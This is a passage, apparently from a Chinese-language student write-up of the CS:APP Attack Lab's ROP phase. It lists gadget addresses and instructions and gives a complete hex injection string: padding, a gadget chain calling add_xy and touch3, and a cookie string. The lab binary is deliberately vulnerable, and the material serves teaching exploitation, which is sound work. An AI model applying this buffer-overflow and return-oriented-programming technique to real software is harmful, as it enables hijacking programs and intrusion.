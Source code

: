 ```asm
ret

<gadget5>->0x4019dd
mov %eax, %edx # edx = rax = x
nop
ret

<gadget8>->0x401a34
mov %edx, %ecx # ecx = edx = x
cmp %cl, %cl
ret

<gadget7>->0x401a27
mov %ecx, %esi # esi = ecx = x
cmp %al, %al
ret

<jmp to add_xy>->0x4019d6
%rax = %rdi + %rsi(初始栈顶 + x，即为cookie的首地址)
ret

<gadget4>->0x4019a2
mov %rax, %rdi #rdi保存cookie首地址
ret
<jmp to touch3>->0x4018fa
```

然后**注意一下正确计算x的值以及在栈上放置x的值，add_xy函数的地址，touch3函数的地址**。保证这些值的使用顺序。

x的值取决于保存%rsp的值和cookie字符串的地址的相对位置。

这个如果实在不确定可以通过GDB慢慢尝试。

最后要注入的字符串为：
```
00 00 00 00 00 00 00 00 /* 40个填充字节 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

ad 1a 40 00 00 00 00 00 /* gadget2 */
a2 19 40 00 00 00 00 00 /* gadget4 */
cc 19 40 00 00 00 00 00 /* gadget3 */
48 00 00 00 00 00 00 00 /* 8字节十六进制x的值 */
dd 19 40 00 00 00 00 00 /* gadget5 */
34 1a 40 00 00 00 00 00 /* gadget8 */
27 1a 40 00 00 00 00 00 /* gadget7 */
d6 19 40 00 00 00 00 00 /* add_xy */
a2 19 40 00 00 00 00 00 /* gadget4 */
fa 18 40 00 00 00 00 00 /* touch3 */

35 39 62 39 39 37 66 61 /* cookie字符串 */
00 00 00 00 00 00 00 00 
```